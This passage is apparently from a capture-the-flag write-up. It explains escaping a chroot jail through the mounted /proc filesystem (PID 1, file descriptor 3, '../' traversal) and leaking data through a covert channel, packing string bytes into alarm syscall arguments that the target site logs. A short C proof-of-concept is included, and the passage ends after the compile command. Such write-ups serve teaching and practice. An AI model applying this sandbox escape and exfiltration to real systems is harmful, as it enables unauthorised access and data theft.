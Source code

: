 ```py
    [SyscallClass.Medium, "fchmod", 91, 2],
    [SyscallClass.High, "chown", 92, 3],
    [SyscallClass.High, "fchown", 93, 3],
    [SyscallClass.High, "ptrace", 101, 4],
]

...[snip]...
```

Since we are in a chroot jail and the PID + NET namepspace is unshared we have to think of another way to exploit the situation. One way to do this is the mounted `/proc` filesystem. Using PID 1, FD 3 and the `../` sequence we can traverse back outside of the chroot jail. Next we need a way to exfiltrate data from the system, which we can do using syscalls that in turn get logged and output on the website. To test our exfiltration we can first compile a small test binary with a string to exfiltrate. Multiple syscalls for this cause would be possible but we will use alarm in this case. Alarm takes an unsigned integer as input so we have to convert our char array. Since an unsigned integer is the size of 4 on linux systems the string `test` is just right for the first attempt. We convert the char pointer to an unsigned int pointer and run a syscall on the value (37 representing the alarm syscall).

`test.c`

```c
#include "unistd.h"
#include "string.h"


int main (int argc, char *argv[])
{
  char* buf = "test";
  unsigned int val = 0;
  val = *((unsigned int *)(&buf[0]));
  syscall(37, val);
  return 0;
}
```

After compiling the binary we upload it and after the sleep we get a result.

```
$ gcc test.c -o testing
```

